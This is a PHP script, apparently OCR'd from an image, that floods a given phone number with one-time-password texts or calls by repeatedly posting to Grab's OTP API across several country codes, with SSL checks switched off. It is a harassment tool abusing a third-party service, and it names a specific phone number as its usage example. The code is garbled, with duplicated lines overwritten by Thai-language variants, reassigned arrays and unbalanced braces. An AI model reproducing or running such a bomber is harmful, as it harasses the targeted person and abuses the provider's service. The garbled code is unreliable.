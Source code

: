<?php

$argv[1] = substr($argv[1], 1);

$argv[1] = "66".$argv[1];

if (!isset($argv[1]) || (isset($argv[2]) && !in_array(strtoupper($argv[2]), ["SMS", "CALL", "ALL"]))) {

	echo "php grab.php <0650744651> <SMS|CALL|ALL>";	exit;

if (!isset($argv[1]) || (isset($argv[2]) && !in_array(strtoupper($argv[2]), ["rizzกอน", "0650744651", "1000000000000000"]))) {
	echo "php run= <ใส่เบอร์โทร> <ข้อความ|โทร|ทั้งหมด>";
	exit;
} elseif (!isset($argv[2])) {

	$argv[2] = "SMS";

	$argv[2] = "rizzกอนนะอ้าย";
}

$countries = ["MY", "SG", "ID", "TH", "VN", "KH", "PH", "MM"];

$countries = ["ไทย"];
shuffle($countries);

$i = 0;

foreach ($countries as $countryCode) {

		$success = false;

		while (!$success) {

			foreach (["SMS", "CALL"] as $method) {

			foreach (["ข้อความ", "โทร"] as $method) {
				if (strtoupper($argv[2]) === "ALL" || strtoupper($argv[2]) === $method) {

					$result = @file_get_contents("https://api.grab.com/grabid/v1/phone/otp", false, stream_context_create([

						"http" => [

							"method" => "POST",

							"header" => "Content-type: application/x-www-form-urlencoded",

							"content" => "method=".$method."&countryCode=".$countryCode."&phoneNumber=".$argv[1]."&templateID=&numDigits=4"

						],

						"ssl" => [

							"verify_peer" => false,

							"verify_peer_name" => false

						]

					]));

					if ($result) {

						echo "[WHITE] §aโหลดสำเร็จ หมายเลข: ".$argv[1]." Country: ".$countryCode." Mode: ".$method."\n";

						echo "[WHITE] หมายเลข: ".$argv[1]." ประเทศ: ".$countryCode." โหมดที่ใช้ยิง: ".$method."\n";
						$success = true;

					}

				}

			}

		}

	}

?>
